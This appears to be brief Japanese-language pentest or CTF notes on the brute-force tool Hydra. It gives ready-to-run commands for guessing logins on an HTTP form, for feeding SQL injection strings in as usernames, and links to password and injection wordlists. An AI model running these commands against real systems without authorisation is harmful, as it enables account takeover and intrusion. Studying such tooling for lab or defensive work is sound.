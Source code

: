 # hydra
- 力こそパワー!BruteForce!
- ftpとかsshとかにも使える

## usage
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt <ip> http-form-post "/path/to/form:Username=^USER^&Password=^PASS^(request body):Login failed(error message)"
```

## その他テクニック
```
hydra -L SQL.txt -p pass 10.10.192.4 http-post-form "/index.php:username=^USER^&password=^PASS^&x=30&y=:Incorrect Login" -f
```

- [SQL.txt](https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/SQL.txt) を使うとSQLiのチェックもできる
- -fでcredentialが見つかったら処理を止める

## 相性良さげなlist
- [tomcat-betterdefaultpasslist.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt)
- [SQL.txt](https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/SQL.txt)
